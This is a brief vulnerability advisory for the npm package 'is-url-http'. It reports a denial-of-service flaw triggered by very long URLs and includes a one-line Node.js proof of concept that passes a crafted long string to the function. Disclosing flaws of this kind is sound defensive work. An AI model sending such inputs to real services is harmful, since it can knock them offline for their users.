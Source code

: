 # Overview

Check if an URL is a valid HTTP URL.

Affected versions of this package are vulnerable to Denial of Service. An attacker providing a very long url can cause a Denial of Service.

# PoC

```node
const isUrlHttp = require('is-url-http')
isUrlHttp('https://kikobeats.test.3423423423sadasd.1312321321sadsadsad.21312312321asdasdsa.21312321asdasda.21312312312adasd23423.sadasdasd231412321.34234234asdasdasdasdassdasd.34234234asdasdas')
```